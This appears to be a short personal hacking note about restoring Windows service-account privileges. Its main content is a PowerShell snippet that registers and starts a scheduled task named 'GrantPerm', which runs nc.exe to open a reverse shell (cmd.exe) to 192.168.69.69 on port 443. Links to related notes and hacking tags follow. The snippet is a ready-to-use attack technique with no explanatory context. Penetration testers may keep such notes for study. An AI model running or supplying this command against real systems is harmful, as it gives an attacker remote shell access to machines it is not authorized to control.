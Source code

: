 # service account privileges restore using scheduled task with powershell
```powershell
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\windows\tasks\nc.exe 192.168.69.69 443 -e cmd.exe`""
Register-ScheduledTask -Action $TaskAction -TaskName "GrantPerm"
Start-ScheduledTask -TaskName "GrantPerm"
```

# Related

- [20221003151080](/zet/20221003151080/README.md) service account privileges restore
- [20221003151078](/zet/20221003151078/README.md) service account privileges restore using scheduled task with powershell require seimpersonate privilege for task using principal
- ~/kb/hacking/windows/service-account-privileges.md

Tags:

    #hacking #windows #service 
